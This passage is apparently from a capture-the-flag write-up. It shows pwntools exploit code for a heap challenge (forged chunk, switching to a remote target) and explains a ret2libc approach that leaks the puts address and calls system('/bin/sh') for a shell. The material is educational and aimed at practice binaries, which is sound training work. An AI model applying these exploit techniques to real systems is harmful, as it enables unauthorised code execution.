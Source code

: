 ```python
delete_note(0)
create_note(p64(forged_chunk))
create_note(b'')
create_note(written_data)
exit_program()

io.interactive()
```

After verifying that it works, you can change it to work remotely by simply replacing the line

```python
io = process(target.path, stdin=PTY, stdout=PTY)
```
with

```python
io = remote("127.0.0.1", 5000) # change the IP and port
```

# I Want to Break Free 2

This challenge is extremely similar to the previous. So much so that the exploit is exactly the same, right up until the last step. This time, there is no `win` function, so you will have to work out a different way of reading the flag.

An easy way to get the flag would be to just spawn a shell and then read it directly, so this is what we will do. You will notice that there is a second leak this time, of the address for `puts`. This is a hint that the intended solution to this challenge is to use a `ret2libc` attack.

If you are not at all familiar with the concept of `ret2libc`, the "goat ooo libc" challenge created by Seli is a nice introduction, since it has a less complex exploit leading up to the actual `ret2libc` payload. 

The core idea is that we will locate the `system` function in glibc when it is loaded into the program's memory, and then redirect the program's execution there, attempting to call `system("/bin/sh")`, which will spawn a shell.

Firstly, you will probably need to recalculate the offset between `choice` and the return address, since it will be slightly different. You can calculate this exactly the same way as before: run the program, break, switch to the `menu_loop` stack frame, view the return address, and subtract the leaked address of `choice` from it. This should give you an offset of `20`.

Also, since we will need to find the address of `system`, we will need to load libc into memory. These challenges all provide a copy of the version of libc (2.27) in use. This is automatically linked to the program when it runs by `ld-linux-x86-64.so.2` so you don't need to worry about that. We can load it into memory the same way as the target binary:

```python
target = ELF('./chal')
libc = ELF('libc.so.6')
```

Then, we modify the part of the exploit where we read the stack leak to also read the puts leak:

```python
io.recvuntil(b'0x')
choice_addr_hex = io.recvline()[:-1].decode('utf-8')
choice_addr = int(choice_addr_hex, 16)
io.recvuntil(b'0x')
puts_addr_hex = io.recvline()[:-1].decode('utf-8')
puts_addr = int(puts_addr_hex, 16)
```
